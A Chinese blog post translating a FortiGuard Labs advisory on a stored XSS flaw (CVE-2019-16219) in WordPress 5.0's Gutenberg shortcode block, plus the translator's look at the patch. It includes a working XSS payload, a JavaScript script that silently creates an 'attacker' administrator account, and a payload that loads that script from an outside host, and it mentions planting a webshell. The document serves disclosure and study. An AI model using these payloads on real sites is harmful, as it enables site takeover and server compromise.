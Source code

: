 ```yaml
---
title: 【翻译】浅析WordPress5.0存储型XSS漏洞
date: 2019-09-23 14:30:26
tags: 翻译
categories: 技术

top_img: https://gingsguard.oss-cn-beijing.aliyuncs.com/blog/php.jpg
---
```


最近，笔者在研究一些与WordPress漏洞相关内容。Sucuri、RIPS、Fortinet等安全公司对WordPress有着一系列的深入研究，因此笔者计划陆续将一些有意思文章翻译出来，与大家共同学习下，祝君多挖漏洞。

<!--more-->

这篇文章是来自FortiGuard Labs，本文介绍了存在于wordpress5.0版本中的xss漏洞。经我个人验证，从wordpress5.0版本起，由于强制使用古腾堡(Gutenberg)编辑器，内部存在不少xss漏洞，而本文中的漏洞，一直存在至5.0.5版本，而非文中所说的5.0.4。

下面翻译稿正文开始

## 前言

WordPress 是世界上最受欢迎的内容管理系统 （CMS），它的全球CMS市场份额已达60.4%，远远高于排名第二的Joomla！（后者仅有5.2%市场份额）。因此，互联网上超过三分之一的网站是使用WordPress搭建的。

近日，FortiGuard Labs团队在 WordPress 中发现了一个存储型跨站点脚本 （XSS）0day漏洞。此 XSS 漏洞是由 WordPress 5.0 中的新内置编辑器 Gutenberg 引起的，编辑器无法过滤Shortcode错误消息中的 JavaScript/HTML 代码。一旦受害者访问受感染网页，具有投稿者（Contributor）或更高权限的远程攻击者就可以在其浏览器中执行任意 JavaScript/HTML 代码。倘若受害者具有较高权限（如：管理员），攻击者甚至可以攻陷整个 Web 服务器。

此存储型XSS漏洞（[CVE-2019-16219](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-16219)）影响WordPress 5.0到[5.0.4,5.1](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-16219)和5.1.1版本。

## 解析

在WordPress 5.0中，用户可以将Shortcode块添加到帖子中。若将某些特定的HTML编码字符（如“＆lt;”）添加到短代码块中，重新打开该帖时，WordPress就会显示错误消息，并将“＆lt;”解码为“<”来进行预览。 

![](https://xzfile.aliyuncs.com/media/upload/picture/20190920141338-c948f9c4-db6d-1.png)

图1.注入HTML编码字符Shortcode块

![](https://xzfile.aliyuncs.com/media/upload/picture/20190920141349-cf90eed6-db6d-1.png)

图2.Shortcode错误消息预览

使用PoC代码

```
"&gt;&lt;img src=1 onerror=alert("熊本熊本熊")&gt;
```

可以轻松绕过此预览中的XSS过滤器。 

![](https://xzfile.aliyuncs.com/media/upload/picture/20190920141406-d99b9ad4-db6d-1.png)

图3.将PoC代码插入Shortcode块

当受害者查看该帖时，XSS代码将在其浏览器中执行。 

![](https://xzfile.aliyuncs.com/media/upload/picture/20190920141415-df3c5a5a-db6d-1.png)

图4. WordPress短代码预览XSS

如果受害者恰好拥有管理员权限，攻击者即可以利用此漏洞获取管理员帐户的控制权，利用WordPress内置函数 getShell，然后控制服务器。

例如，攻击者可以在其Web服务器上托管JavaScript文件，例如[wpaddadmin [。\] js](https://g0blin.co.uk/xss-and-wordpress-the-aftermath/)（在链接中描述）。此JavaScript代码将添加一个WordPress管理员帐户，其用户名为“attacker”，密码为“attacker”。

```javascript
// Send a GET request to the URL '/wordpress/wp-admin/user-new.php', and extract the current 'nonce' value  
var ajaxRequest = new XMLHttpRequest();  
var requestURL = "/wordpress/wp-admin/user-new.php";  
var nonceRegex = /ser" value="([^"]*?)"/g;  
ajaxRequest.open("GET", requestURL, false);  
ajaxRequest.send();  
var nonceMatch = nonceRegex.exec(ajaxRequest.responseText);  
var nonce = nonceMatch[1];  

// Construct a POST query, using the previously extracted 'nonce' value, and create a new user with an arbitrary username / password, as an Administrator  
var params = "action=createuser&_wpnonce_create-user="+nonce+"&user_login=attacker&email=attacker@site.com&pass1=attacker&pass2=attacker&role=administrator";  
ajaxRequest = new XMLHttpRequest();  
ajaxRequest.open("POST", requestURL, true);  
ajaxRequest.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");  
ajaxRequest.send(params);
```

然后，攻击者可以在JavaScript中注入以下PoC代码。

```
"&gt;&lt;img src=1 onerror="javascript&colon;(function () { var url = 'http://aaa.bbb.ccc.ddd/ wpaddadmin.js';if (typeof beef == 'undefined') { var bf = document.createElement('script'); bf.type = 'text/javascript'; bf.src = url; document.body.appendChild(bf);}})();"&gt;
```

![](https://xzfile.aliyuncs.com/media/upload/picture/20190920141432-e97fa756-db6d-1.png)

图5.注入XSS代码以添加管理员帐户

一旦具有高权限的受害者查看此帖，就会立即创建attacker管理员帐户。 

![](https://xzfile.aliyuncs.com/media/upload/picture/20190920141451-f476286a-db6d-1.png)

图6.执行XSS代码

![](https://xzfile.aliyuncs.com/media/upload/picture/20190920141504-fcb25f76-db6d-1.png)

图7.使用XSS代码，成功创建具有管理员权限的“attacker”帐户

随之，攻击者可以将现有的php文件修改为webshell，并借此来控制Web服务器。 

![](https://xzfile.aliyuncs.com/media/upload/picture/20190920141516-038c2df4-db6e-1.png)

图8.使用攻击者的帐户添加webshell

![](https://xzfile.aliyuncs.com/media/upload/picture/20190920141526-09a274fa-db6e-1.png)

图9.控制Web服务器

## 解决方案

建议使用受影响版本的WordPress用户，尽快升级到最新版本或立即应用最新的补丁。

翻译正文到此结束

## 写在翻译稿后面

我跟踪了下wordpress的修复

![](https://xzfile.aliyuncs.com/media/upload/picture/20190920141538-10bb5d88-db6e-1.png)

本次都修复位于wp-includes\js\dist\block-library.js中

由于原先shortcode的*attributes* 属性中source值为'text'，前端页面在解析shortcode中的&lt;值时，会将其解析为<,从而造成闭合，如下图

![](https://xzfile.aliyuncs.com/media/upload/picture/20190920141547-15d8ea92-db6e-1.png)

修复后shortcode的*attributes* 属性中source值为html，前端脚本不再解析&lt;

原文链接：https://www.fortinet.com/blog/threat-research/wordpress-core-stored-xss-vulnerability.html